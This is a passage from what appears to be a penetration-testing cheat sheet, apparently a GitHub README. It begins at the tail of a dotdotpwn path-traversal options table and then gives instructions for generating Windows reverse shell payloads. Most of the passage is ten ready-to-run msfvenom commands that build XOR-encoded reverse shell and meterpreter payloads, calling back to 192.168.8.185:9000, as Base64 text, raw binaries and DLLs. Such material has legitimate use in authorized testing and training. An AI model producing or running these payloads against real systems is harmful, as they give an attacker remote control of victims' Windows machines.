 | -M | HTTP Method to use when using the 'http' module \[GET \| POST \| HEAD \| COPY \| MOVE\] (default: GET) |
| -b | Break after the first vulnerability is found |

For more options just run `dotdotpwn`.

<p id="generate-a-reverse-shell-payload-for-python"/>

### Generate a Reverse Shell Payload for Python

Find out how to generate a `reverse shell payload` for Python and send it to a target machine from my other [project](https://github.com/ivan-sincek/send-tcp-payload).

<p id="generate-a-reverse-shell-payload-for-windows-os"/>

### Generate a Reverse Shell Payload for Windows OS

To generate a `Base64 encoded payload` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > /root/Desktop/payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > /root/Desktop/payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > /root/Desktop/payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > /root/Desktop/payload.txt
```

To generate a `binary file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o /root/Desktop/payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o /root/Desktop/payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -o /root/Desktop/payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -o /root/Desktop/payload.bin
```

To generate a `DLL file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o /root/Desktop/payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o /root/Desktop/payload.dll
```
